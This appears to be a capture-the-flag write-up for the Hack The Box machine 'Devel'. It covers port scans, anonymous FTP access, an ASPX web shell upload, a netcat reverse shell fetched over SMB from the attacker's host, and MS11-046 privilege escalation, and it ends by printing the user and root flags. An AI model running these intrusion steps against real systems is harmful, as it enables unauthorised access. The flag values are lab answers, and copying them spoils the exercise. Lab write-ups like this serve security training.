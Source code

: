 ![Haystack.PNG](/assets/Machines/Easy/Devel/Devel.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.5
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.5
```

**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

3. Visit webpage

![webpage.PNG](/assets/Machines/Easy/Devel/webpage.PNG)

* **Wappalyzer Information:** `Operative System: Windows Server` / `IIS 7.5`

4. Use nmap to discover more information about services and their versions are running in previously ports
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Devel]
└─# nmap -sCV -p21,80 10.10.10.5 -oN versions
```
**Output**
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

* We look the IIS Service don't expose risky methods

5. Login in FTP service with username `anonymous`
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Devel]
└─# ftp 10.10.10.5                 
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

* If you login with username **anonymous** you can't provide password.

6. List all files in this service
```
ftp> dir
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
```

* This files become known to us..., are files used by Web Page!, to verify this you can visit welcome.png like:
* **URL:** `http://10.10.10.5/welcome.png`

![welcome.PNG](/assets/Machines/Easy/Devel/welcome.PNG)

7. Then, you can upload any file to test, in this case you need to upload **.apsx** web shell.
* **Directory to get aspx web shell**: `/usr/share/webshells/aspx/cmdasp.aspx`

8. With **put** upload previous file.
```
ftp> put
(local-file) /usr/share/webshells/aspx/cmdasp.aspx
(remote-file) cmdasp.aspx
```

9. Visit the new file
* **URL:** `http://10.10.10.5/cmdasp.aspx`

![aspx.PNG](/assets/Machines/Easy/Devel/aspx.PNG)

10. Next, you can get a reverse shell:

* First, download [nc.exe](https://eternallybored.org/misc/netcat/) [Netcat 1.12]
---
* Next, create a smbserver to provide nc.exe
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Devel]
└─# impacket-smbserver shareFolder $(pwd) -smb2support
```
> The name of directory is `shareFolder`
---
* Then, get a reverse shell using webshell and access `nc.exe`.
* **Command:** `\\<tun0 IP>\shareFolder\nc64.exe -e cmd <tun0 IP> <Port>`
  
    + Remember listen in port choosed with `nc` like:
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Devel]
└─# rlwrap nc -lvnp <Port>
```
* Use `rlwrap` to avoid errors.

---
**Output**
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Devel]
└─# rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.5] 49161
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

---
---
---
### **Privileges Escalation** 💀
1. List system information
```cmd
c:\windows\system32\inetsrv>systeminfo                                                                                                                                                     
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
```

* Os Version is old, **old meaning exploitable**

2. The exploit is [MS11-046](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046), download exploit in our machine and copy in target machine.

* First, create a smbserver in current path of exploit.
---
* Then, download exploit in target machine, before this, create a folder in `Windows\Temp`
```cmd
c:\Windows\Temp\Exploit>copy \\10.10.14.23\shareFolder\ms11-046.exe ms11-046.exe
```
---

3. Execute exploit
```cmd
c:\Windows\Temp\Exploit>.\ms11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

4. Show **user flag**
```cmd
c:\Users>type babis\Desktop\user.txt
a9d07536a851ae6048f497d66d23446a
```

5. Show **root flag**
```cmd
c:\Users>type Administrator\Desktop\root.txt
1ce6d49cce141d0b87978d1c76d2ab6c
```